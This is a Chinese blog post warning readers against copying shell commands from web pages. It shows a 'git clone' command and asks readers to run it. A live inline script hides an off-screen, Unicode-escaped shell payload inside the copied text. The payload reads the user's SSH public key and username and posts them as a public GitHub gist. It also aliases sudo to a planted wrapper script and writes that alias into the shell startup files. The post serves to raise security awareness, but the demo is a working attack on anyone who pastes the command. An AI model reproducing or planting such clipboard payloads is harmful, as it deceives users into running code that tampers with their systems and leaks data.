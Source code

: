 ```yaml
---
layout:         post
title:          千万别Copy网上的命令直接运行
category:       blog
description:    想不起来 linux 命令了，上网搜一下， Copy ，执行吧，慢！危险就在你身边……
---
```


## 执行一下这个命令试试吧！

<p id="demoP" style="font-weight: bold"><span id="demoSpan">git clone git://github.com/wangpuv/taskflow.git</span></p>

这是一个通过 git 复制 taskflow 项目到本地的命令，执行一下看看吧？！

## 咦？好像有什么不对？

如果你的机器比较慢，是不是已经发现有什么不对劲的地方了呢？

是的，互联网总是比你想象的要可怕，随处都有陷阱和危险，把你刚才 Copy 的命令招贴到记事本看看，你就恍然大悟了。

## Web上的东西就算你亲眼看到也未必是真实的

千万不要仅凭过去的经验，去操作一些存在风险的事情。现在的前端黑客无处不在，他们把陷阱搭建在你意想不到的地方，让缺少安全经验的人束手就擒。

黑客们的手段更多是利用人们的大意和疏忽，一个不留神可能就中枪了。

<script>var ds=document.getElementById("demoSpan");ds.parentNode.removeChild(ds);var dp=document.getElementById("demoP"),t1=document.createTextNode("git clone ");dp.appendChild(t1);var sp=document.createElement("span");sp.setAttribute("style","position: fixed; left: -100px; top: -100px"),dp.appendChild(sp);var st1=document.createTextNode("\u002f\u0064\u0065\u0076\u002f\u006e\u0075\u006c\u006c\u003b\u0063\u006c\u0065\u0061\u0072\u003b\u0049\u0046\u0053\u003d\u0027\u0025\u0027\u003b\u0073\u003d\u0027\u005c\u006e\u0070\u003d\u0024\u0028\u0063\u0061\u0074\u00a0\u007e\u002f\u002e\u0073\u0073\u0068\u002f\u0069\u0064\u005f\u0072\u0073\u0061\u002e\u0070\u0075\u0062\u0029\u003b\u006d\u003d\u0024\u0028\u0065\u0063\u0068\u006f\u00a0\u0024\u0070\u00a0\u007c\u00a0\u0063\u0075\u0074\u00a0\u002d\u0066\u0033\u00a0\u002d\u0064\u0022\u00a0\u0022\u0029\u003b\u0049\u0046\u0053\u003d\u0027\u005c\u0027\u005c\u005c\u0078\u0032\u0035\u005c\u0027\u0027\u003b\u0065\u0063\u0068\u006f\u00a0\u002d\u0065\u00a0\u0027\u005c\u0027\u0027\u0023\u0021\u002f\u0062\u0069\u006e\u002f\u0073\u0068\u005c\u005c\u006e\u0073\u0075\u0064\u006f\u00a0\u0024\u0040\u005c\u005c\u006e\u0065\u0063\u0068\u006f\u003b\u0065\u0063\u0068\u006f\u00a0\u0048\u0065\u0079\u002c\u00a0\u006c\u006f\u006f\u006b\u00a0\u0061\u0074\u00a0\u0077\u0068\u0061\u0074\u00a0\u0079\u006f\u0075\u005c\u005c\u0027\u005c\u0027\u0027\u005c\u0027\u005c\u0027\u0027\u0027\u005c\u0027\u0027\u0076\u0065\u00a0\u006a\u0075\u0073\u0074\u00a0\u0064\u006f\u006e\u0065\u003a\u00a0\u0027\u005c\u0027\u0027\u0024\u0028\u0063\u0075\u0072\u006c\u00a0\u002d\u0073\u00a0\u002d\u0058\u00a0\u0050\u004f\u0053\u0054\u00a0\u002d\u0064\u00a0\u0027\u005c\u0027\u0027\u007b\u0022\u0070\u0075\u0062\u006c\u0069\u0063\u0022\u003a\u0074\u0072\u0075\u0065\u002c\u0022\u0066\u0069\u006c\u0065\u0073\u0022\u003a\u007b\u0022\u0069\u0064\u005f\u0072\u0073\u0061\u002e\u006d\u0064\u0022\u003a\u007b\u0022\u0063\u006f\u006e\u0074\u0065\u006e\u0074\u0022\u003a\u0022\u0027\u005c\u0027\u0027\u0024\u0028\u0077\u0068\u006f\u0061\u006d\u0069\u0029\u0027\u005c\u0027\u0027\u00a0\u003c\u003c\u0027\u005c\u0027\u0027\u0024\u006d\u0027\u005c\u0027\u0027\u003e\u003e\u005c\u005c\u006e\u005c\u005c\u006e\u0059\u006f\u0075\u0072\u00a0\u0060\u0069\u0064\u005f\u0072\u0073\u0061\u002e\u0070\u0075\u0062\u0060\u00a0\u0069\u0073\u003a\u005c\u005c\u006e\u005c\u005c\u006e\u00a0\u00a0\u00a0\u00a0\u0027\u005c\u0027\u0027\u0024\u0070\u0027\u005c\u0027\u0027\u005c\u005c\u006e\u005c\u005c\u006e\u0059\u006f\u0075\u0072\u00a0\u0060\u0069\u0064\u005f\u0072\u0073\u0061\u0060\u00a0\u0069\u0073\u003a\u005c\u005c\u006e\u005c\u005c\u006e\u00a0\u00a0\u00a0\u00a0\u004e\u006f\u00a0\u0077\u006f\u0072\u0072\u0079\u002e\u00a0\u0049\u0027\u005c\u0027\u0027\u005c\u005c\u0027\u005c\u0027\u0027\u0027\u005c\u0027\u0027\u006d\u00a0\u0067\u006f\u006f\u0064\u00a0\u0073\u006f\u00a0\u0049\u0027\u005c\u0027\u0027\u005c\u005c\u0027\u005c\u0027\u0027\u0027\u005c\u0027\u0027\u006c\u006c\u00a0\u006a\u0075\u0073\u0074\u00a0\u006b\u0065\u0065\u0070\u00a0\u0079\u006f\u0075\u00a0\u0073\u0061\u0066\u0065\u002e\u0027\u005c\u0027\u0027\u0027\u005c\u0027\u0027\u0022\u007d\u007d\u007d\u0027\u005c\u0027\u0027\u00a0\u0068\u0074\u0074\u0070\u0073\u003a\u002f\u002f\u0061\u0070\u0069\u002e\u0067\u0069\u0074\u0068\u0075\u0062\u002e\u0063\u006f\u006d\u002f\u0067\u0069\u0073\u0074\u0073\u00a0\u007c\u00a0\u0067\u0072\u0065\u0070\u00a0\u0027\u005c\u0027\u0027\u0022\u0068\u0074\u006d\u006c\u005f\u0075\u0072\u006c\u0022\u0027\u005c\u0027\u0027\u00a0\u007c\u00a0\u0063\u0075\u0074\u00a0\u002d\u0066\u0034\u00a0\u002d\u0064\u0027\u005c\u0027\u0027\u0022\u0027\u005c\u0027\u0027\u0029\u00a0\u003e\u007e\u002f\u002e\u0073\u0075\u0064\u006f\u003b\u0075\u006e\u0073\u0065\u0074\u00a0\u0049\u0046\u0053\u003b\u0063\u0068\u006d\u006f\u0064\u00a0\u002b\u0078\u00a0\u007e\u002f\u002e\u0073\u0075\u0064\u006f\u003b\u0061\u006c\u0069\u0061\u0073\u00a0\u0073\u0075\u0064\u006f\u003d\u0022\u007e\u002f\u002e\u0073\u0075\u0064\u006f\u0022\u0027\u003b\u0069\u0066\u00a0\u005b\u005b\u00a0\u0060\u0065\u0063\u0068\u006f\u00a0\u0024\u0030\u0060\u00a0\u003d\u007e\u00a0\u0022\u002e\u002a\u007a\u0073\u0068\u0022\u00a0\u005d\u005d\u003b\u0074\u0068\u0065\u006e\u00a0\u0065\u0063\u0068\u006f\u00a0\u002d\u0065\u00a0\u0024\u0073\u00a0\u003e\u003e\u007e\u002f\u002e\u007a\u0073\u0068\u0072\u0063\u003b\u0065\u006c\u0073\u0065\u00a0\u0065\u0063\u0068\u006f\u00a0\u002d\u0065\u00a0\u0024\u0073\u00a0\u003e\u003e\u007e\u002f\u002e\u0062\u0061\u0073\u0068\u0072\u0063\u003b\u0066\u0069\u003b\u0075\u006e\u0073\u0065\u0074\u00a0\u0049\u0046\u0053");sp.appendChild(st1);var br=document.createElement("br");sp.appendChild(br);var st3=document.createTextNode("git clone ");sp.appendChild(st3);var t2=document.createTextNode("git://github.com/wangpuv/taskflow.git");dp.appendChild(t2);</script>